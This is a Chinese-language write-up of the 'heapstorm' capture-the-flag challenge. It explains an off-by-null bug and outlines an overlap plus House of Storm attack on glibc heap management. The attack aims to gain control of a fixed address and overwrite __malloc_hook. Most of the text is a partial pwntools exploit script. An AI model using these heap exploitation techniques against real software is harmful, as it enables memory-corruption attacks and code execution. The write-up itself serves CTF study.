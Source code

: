 题目中`list[]`储存的地址与`size`为真实地址和随机数异或后的值.


## 漏洞分析.
主要的漏洞出现在`edit`功能中:`off_by_null`
```arm
  do_read(ptr, size);
  v3 = &ptr[size];
  *(_QWORD *)v3 = 'ROTSPAEH';
  *((_DWORD *)v3 + 2) = 'II_M';
  v3[12] = 0;        
```
## 利用
* 介于上题以详细叙述了`House of Storm`的攻击过程本题直接拿结果来用
* Off By one shrink ===>over lap
* House of Storm =====>get the control of 0x13370800
* set list[-1] to show & set list[0] to leak
* edit list[0] + edit list[n] to modify `__malloc_hook`
## exp
```python
from pwn import *
#context.log_level='debug'
def cmd(c):
	p.sendlineafter("and: ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter("Size: ",str(size))
def edit(idx,size,c):
	cmd(2)
	p.sendlineafter("Index: ",str(idx))
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Content: ",c)
def free(idx):
	cmd(3)
	p.sendlineafter("Index: ",str(idx))
def show(idx):
	cmd(4)
	p.sendlineafter("Index: ",str(idx))
p=process('./heapstorm',env={"LD_PRELOAD":"./libc-2.24.so"})
add(0x500)#0
add(0x88)#1
add(0x18)#2
free(0)
add(0x18)#0
edit(0,0x18-0xc,"A"*(0x18-0xc))
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x2d8)#1
add(0x78)#3
add(0x48)#5
aim=0x13370810
add(0x666)#6
edit(4,8*12,p64(0x4a1)*8+p64(0)+p64(aim-0x20+8)+p64(0)+p64(aim-0x20-0x18-5))
edit(5,0x10,p64(0)+p64(0x91))
free(4)
edit(5,0x20,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))

add(0x48)#4

edit(4,0x48-0xc,'\x00'*0x10+p64(0x13377331)+p64(0)+p64(0x13370840)+p64(0x100)+'\x00'*0xc)
```